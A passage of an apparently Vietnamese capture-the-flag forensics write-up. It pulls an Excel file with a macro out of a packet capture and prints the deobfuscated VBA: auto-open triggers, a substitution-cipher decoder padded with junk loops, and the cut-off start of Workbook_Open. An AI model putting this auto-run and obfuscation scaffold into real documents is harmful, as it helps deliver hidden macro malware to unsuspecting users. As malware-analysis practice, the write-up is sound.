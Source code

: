 ![image](https://github.com/M1nh-Duk/Writeups/assets/100038173/c4e5cc2f-c5b0-4905-a445-7e66c9e53b22)

- Bài cho chúng ta 1 file pcapng trong đó có 1 packet chứa file excel có chứa macro

![image](https://github.com/M1nh-Duk/Writeups/assets/100038173/f2bf3916-58f8-4363-8303-c1ed362a87bb)

- Export file ra xem trong đó có chứa gì
  
![image](https://github.com/M1nh-Duk/Writeups/assets/100038173/82cd4f55-9aed-424e-a3fe-404db6a69365)

- Sử dụng <code>olevba</code> để có được đoạn script bị obfuscate khá đau mắt :))

  ![image](https://github.com/M1nh-Duk/Writeups/assets/100038173/14cd44ae-4efa-41de-94fd-1b8750411ade)

- Đây là phiên bản dễ đọc hơn 
```
Sub Auto_Open()
Workbook_Open
End Sub
Sub AutoOpen()
Workbook_Open
End Sub
Sub WorkbookOpen()
Workbook_Open
End Sub
Sub Document_Open()
Workbook_Open
End Sub
Sub DocumentOpen()
Workbook_Open
End Sub

Function func1(param)
var1 = " ?!@#$%^&*()_+|0123456789abcdefghijklmnopqrstuvwxyz.,-~ABCDEFGHIJKLMNOPQRSTUVWXYZ¿¡²³ÀÁÂÃÄÅÒÓÔÕÖÙÛÜàáâãäåØ¶§Ú¥"
var2 = "ãXL1lYU~Ùä,Ca²ZfÃ@dO-cq³áÕsÄJV9AQnvbj0Å7WI!RBg§Ho?K_F3.Óp¥ÖePâzk¶ÛNØ%G mÜ^M&+¡#4)uÀrt8(ÒSw|T*Â$EåyhiÚx65Dà¿2ÁÔ"
For y = 1 To Len(param)
var3 = InStr(var1, Mid(param, y, 1))
If var3 > 0 Then
var4 = Mid(var2, var3, 1)
var5 = var5 + var4
Else
var5 = var5 + Mid(param, y, 1)
End If
Next
func1 = var5
For var6 = 1 To Len(var7)
var7 = var6
Next
For var8 = 2 To Len(var9)
var9 = 2
Next
For var10 = 3 To Len(var11)
var11 = var10
Next
For var12 = 4 To Len(var13)
var13 = 2
Next
End Function


Sub Workbook_Open()
Dim outer_var1 As Object
```